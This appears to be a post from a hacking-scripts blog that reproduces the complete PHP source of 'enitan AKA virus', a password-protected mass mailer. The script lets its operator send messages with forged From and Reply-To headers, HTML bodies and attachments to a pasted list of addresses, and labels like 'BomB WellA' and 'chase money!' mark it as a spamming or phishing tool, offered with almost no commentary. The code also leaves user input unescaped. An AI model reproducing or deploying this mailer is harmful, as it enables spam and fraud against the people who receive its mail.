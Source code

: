 ```yaml
---
id: 114
title: enitan AKA virus
author: admin
layout: post
guid: http://hackingscripts.com/?p=114
permalink: /enitan-aka-virus/
categories:
  - enitan AKA virus
  - PHP
tags:
  - enitan AKA virus
  - PHP
---
```

This file was called &#8216;enitan AKA virus&#8217;, and this is the content of the title tag in the script, so I guess that&#8217;s what it&#8217;s called.


### Enitan AKA virus Source Code

{% highlight php linenos %}<?php
@session_start();
@set_time_limit(0);
//PASSWORD CONFIGURATION
@$pass = $_POST['pass'];
$chk_login = true;
$password = "kill";
//END CONFIGURATION
if($pass == $password)
{
$_SESSION['nst'] = "$pass";
}
if($chk_login == true)
{
if(!isset($_SESSION['nst']) or $_SESSION['nst'] != $password)
{
die("
 &lt;title&gt;.:|enitan AKA Virus|:.&lt;/title&gt;
 &lt;center&gt;
 &lt;table border=0 cellpadding=0 cellspacing=0 width=100% height=100%&gt;
 &lt;tr&gt;&lt;td valign=middle align=center&gt;
 &lt;table width=100 bgcolor=black border=6 bordercolor=#444444&gt;
   &lt;tr&gt;&lt;td&gt;
 &lt;font size=1 face=verdana&gt;&lt;center&gt;
 &lt;b&gt;&lt;/font&gt;&lt;/a&gt;&lt;br&gt;&lt;/b&gt;
 &lt;/center&gt;
 &lt;form method=post&gt;
 &lt;font size=1 face=verdana
color=red&gt;&lt;strong&gt;&lt;center&gt;Mailer&lt;/center&gt;&lt;/strong&gt;&lt;br&gt;
 &lt;input type=password name=pass size=30&gt;
 &lt;/form&gt;
 &lt;b&gt;Host:&lt;/b&gt; ".$_SERVER["HTTP_HOST"]."&lt;br&gt;
 &lt;b&gt;IP:&lt;/b&gt; ".gethostbyname($_SERVER["HTTP_HOST"])."&lt;br&gt;
 &lt;b&gt;Your ip:&lt;/b&gt; ".$_SERVER["REMOTE_ADDR"]."
 &lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;
 &lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;
 ");
}
}
if(isset($_POST['action'] ) ){
$action=$_POST['action'];
$message=$_POST['message'];
$emaillist=$_POST['emaillist'];
$from=$_POST['from'];
$replyto=$_POST['replyto'];
$subject=$_POST['subject'];
$realname=$_POST['realname'];
$file_name=$_POST['file'];
$contenttype=$_POST['contenttype'];
       $message = urlencode($message);
       $message = ereg_replace("%5C%22", "%22", $message);
       $message = urldecode($message);
       $message = stripslashes($message);
       $subject = stripslashes($subject);
}
?>
&lt;html&gt;
&lt;head&gt;
&lt;title&gt;.:: mass mailer ::.&lt;/title&gt;
&lt;meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1"&gt;
&lt;style type="text/css"&gt;
&lt;!--
.style1 {
       font-family: Geneva, Arial, Helvetica, sans-serif;
       font-size: 12px;
}
--&gt;
&lt;/style&gt;
&lt;style type="text/css"&gt;
&lt;!--
.style1 {
       font-size: 20px;
       font-family: Geneva, Arial, Helvetica, sans-serif;
}
body {
   background-color: #000000;
}
.style2 {font-family: Georgia, "Times New Roman", Times, serif}
.style3 {
   color: #FF0000;
   font-weight: bold;
}
.style4 {color: #999999}
--&gt;
&lt;/style&gt;
&lt;/head&gt;
&lt;body text="#ffffff"&gt;
&lt;span class="style1"&gt;
&lt;center&gt;&lt;br&gt;
 &lt;SPAN lang=ar-sa&gt;&lt;FONT style="FONT-SIZE: 70pt"
face=Webdings
color=#ff0000&gt;!&lt;/FONT&gt;&lt;/SPAN&gt;&lt;/FONT&gt;&lt;/br&gt;
&lt;/center&gt;
&lt;br&gt;&lt;/span&gt;&lt;/p&gt;
&lt;form name="form1" method="post" action="" enctype="multipart/form-data"&gt;
       &lt;input type="hidden" name="action" value="send"&gt;
       &lt;br&gt;
 &lt;table width="100%" border="0"&gt;
   &lt;tr&gt;
     &lt;td width="10%"&gt;
       &lt;div align="right"&gt;&lt;font size="-3" face="Verdana, Arial,
Helvetica, sans-serif"&gt;Email:&lt;/font&gt;&lt;/div&gt;
     &lt;/td&gt;
     &lt;td width="18%"&gt;&lt;font size="-3" face="Verdana, Arial, Helvetica,
sans-serif"&gt;
       &lt;input type="text" name="from" value="<? print $from; ?>"
size="30"&gt;
       &lt;/font&gt;&lt;/td&gt;
     &lt;td width="31%"&gt;
       &lt;div align="right"&gt;&lt;font size="-3" face="Verdana, Arial,
Helvetica, sans-serif"&gt;Name:&lt;/font&gt;&lt;/div&gt;
     &lt;/td&gt;
     &lt;td width="41%"&gt;&lt;font size="-3" face="Verdana, Arial, Helvetica,
sans-serif"&gt;
       &lt;input type="text" name="realname" value="<? print $realname;
?>" size="30"&gt;
       &lt;/font&gt;&lt;/td&gt;
   &lt;/tr&gt;
   &lt;tr&gt;
     &lt;td width="10%"&gt;
       &lt;div align="right"&gt;&lt;font size="-3" face="Verdana, Arial,
Helvetica, sans-serif"&gt;Reply:&lt;/font&gt;&lt;/div&gt;
     &lt;/td&gt;
     &lt;td width="18%"&gt;&lt;font size="-3" face="Verdana, Arial, Helvetica,
sans-serif"&gt;
       &lt;input type="text" name="replyto" value="<? print $replyto;
?>" size="30"&gt;
       &lt;/font&gt;&lt;/td&gt;
     &lt;td width="31%"&gt;
       &lt;div align="right"&gt;&lt;font size="-3" face="Verdana, Arial,
Helvetica, sans-serif"&gt;Attach
         File:&lt;/font&gt;&lt;/div&gt;
     &lt;/td&gt;
     &lt;td width="41%"&gt;&lt;font size="-3" face="Verdana, Arial, Helvetica,
sans-serif"&gt;
       &lt;input type="file" name="file" size="30"&gt;
       &lt;/font&gt;&lt;/td&gt;
   &lt;/tr&gt;
   &lt;tr&gt;
     &lt;td width="10%"&gt;
       &lt;div align="right"&gt;&lt;font size="-3" face="Verdana, Arial,
Helvetica, sans-serif"&gt;Subject:&lt;/font&gt;&lt;/div&gt;
     &lt;/td&gt;
     &lt;td colspan="3"&gt;&lt;font size="-3" face="Verdana, Arial, Helvetica,
sans-serif"&gt;
       &lt;input type="text" name="subject" value="<? print $subject;
?>" size="66"&gt;
       &lt;/font&gt;&lt;/td&gt;
   &lt;/tr&gt;
   &lt;tr&gt;
     &lt;td width="10%" valign="top"&gt;
       &lt;div align="right"&gt;&lt;font size="-3" face="Verdana, Arial,
Helvetica, sans-serif"&gt;Mail:&lt;/font&gt;&lt;/div&gt;
     &lt;/td&gt;
     &lt;td width="18%" valign="top"&gt;&lt;font size="-3" face="Verdana,
Arial, Helvetica,
sans-serif"&gt;
       &lt;textarea name="message" cols="50" rows="10"&gt;<? print
$message; ?>&lt;/textarea&gt;
       &lt;br&gt;
       &lt;input type="radio" name="contenttype" value="plain"&gt;
       Text
       &lt;input name="contenttype" type="radio" value="html" checked&gt;
       HTML
       &lt;input type="submit" value="BomB WellA"&gt;
       &lt;/font&gt;&lt;/td&gt;
     &lt;td width="31%" valign="top"&gt;
       &lt;div align="right"&gt;
         &lt;font face="Verdana, Arial,
Helvetica, sans-serif" size="-3"&gt;Mail  to:&lt;/font&gt;&lt;/div&gt;
     &lt;/td&gt;
     &lt;td width="41%" valign="top"&gt;&lt;font size="-3" face="Verdana,
Arial, Helvetica, sans-serif"&gt;
       &lt;textarea name="emaillist" cols="30" rows="10"&gt;<? print
$emaillist; ?>&lt;/textarea&gt;&lt;/font&gt;&lt;/td&gt;
   &lt;/tr&gt;
 &lt;/table&gt;
&lt;/form&gt;
<?
if ($action){
       if (!$from && !$subject && !$message && !$emaillist){
       print "Please complete all fields before sending your message.";
       exit;
   }
   $allemails = split("\n", $emaillist);
           $numemails = count($allemails);
         for($x=0; $x&lt;$numemails; $x++){
               $to = $allemails[$x];
               if ($to){
               $to = ereg_replace(" ", "", $to);
               $message = ereg_replace("&email&", $to, $message);
               $subject = ereg_replace("&email&", $to, $subject);
               print " $to.......";
               flush();
               $header = "From: $realname &lt;$from&gt;\r\nReply-To: $replyto\r\n";
               $header .= "MIME-Version: 1.0\r\n";
           If ($file_name) $header .= "Content-Type: multipart/mixed;
boundary=$uid\r\n";
             If ($file_name) $header .= "--$uid\r\n";
               $header .= "Content-Type: text/$contenttype\r\n";
               $header .= "Content-Transfer-Encoding: 8bit\r\n\r\n";
               $header .= "$message\r\n";
           If ($file_name) $header .= "--$uid\r\n";
           If ($file_name) $header .= "Content-Type: $file_type;
name=\"$file_name\"\r\n";
           If ($file_name) $header .= "Content-Transfer-Encoding: base64\r\n";
           If ($file_name) $header .= "Content-Disposition:
attachment; filename=\"$file_name\"\r\n\r\n";
           If ($file_name) $header .= "$content\r\n";
           If ($file_name) $header .= "--$uid--";
               mail($to, $subject, "", $header);
               print "chase money!&lt;br&gt;";
               flush();
               }
               }
}
?>
&lt;style type="text/css"&gt;
&lt;!--
.style1 {
   font-size: 20px;
   font-family: Geneva, Arial, Helvetica, sans-serif;
}
--&gt;
&lt;/style&gt;&lt;center&gt;
&lt;p class="style1 style2 style3 style4"&gt;&lt;p class="style1"&gt;PHP Mailer&lt;br&gt;
 &copy enitan4evil@hotmail.com&lt;br&gt;
     &lt;/p&gt;  &lt;/p&gt;
&lt;/center&gt;
<?php
if(isset($_POST['action']) && $numemails !==0 ){echo
"&lt;script&gt;alert('Sending Completed\\r\\nTotal Email
$numemails\\r\\n-Shout Lastborn and Hustle On!');
&lt;/script&gt;";}
?>
&lt;/body&gt;
&lt;/html&gt;
{% endhighlight %}


### Enitan AKA virus screenshot

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/01/enitan.png" alt="enitan aka virus screenshot" width="411" height="293" class="aligncenter size-full wp-image-352" />][1]

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/01/enitan.png